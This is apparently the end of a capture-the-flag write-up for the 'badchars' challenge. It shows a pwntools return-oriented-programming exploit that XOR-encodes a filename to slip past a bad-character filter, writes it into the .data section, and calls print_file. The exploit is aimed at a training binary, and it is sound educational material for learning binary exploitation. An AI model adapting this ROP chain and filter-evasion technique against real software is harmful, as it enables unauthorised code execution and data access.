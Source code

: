We are going to use `pwntools` to create out exploit script. Below is the exploit script.

> **NOTE** : I added 7 to `base data_address` because while I was `xoring` back the characters one of the characters address contained `bad character` so to remove that anomaly i just shifted the `.data` address. 

```
#!/usr/bin/env python

from pwn import *

elf = ELF('./badchars')
p = elf.process()

data_address = 0x601028 + 7

payload = 'F' * 40
payload += p64(0x40069c) 			# pop r12; pop r13; pop r14; pop r15; ret;
payload += 'flbd-t{t'
payload += p64(data_address)		# .data section
payload += p64(0x03)
payload += p64(data_address + 2)
payload += p64(0x400634)        	# mov qword ptr [r13], r12; ret;
payload += p64(0x400628)        	# xor byte ptr [r15], r14b; ret;
payload += p64(0x4006a2)        	# pop r15; ret; 
payload += p64(data_address + 3)
payload += p64(0x400628)        	# xor byte ptr [r15], r14b; ret;
payload += p64(0x4006a2)        	# pop r15; ret; 
payload += p64(data_address + 4)
payload += p64(0x400628)       		# xor byte ptr [r15], r14b; ret;
payload += p64(0x4006a2)        	# pop r15; ret; 
payload += p64(data_address + 6)
payload += p64(0x400628)        	# xor byte ptr [r15], r14b; ret;
payload += p64(0x4006a3)        	# pop rdi; ret;
payload += p64(data_address)
payload += p64(0x00400510)			# address of print_file


print p.recvuntil('> ')
p.sendline(payload)

print p.recvuntil('}')
```

![image](action)

Bingo! We completed the challange. Please Note that we can write the exploit more effeciently.

Thank you so much for taking your time to read this. Keep Hacking.
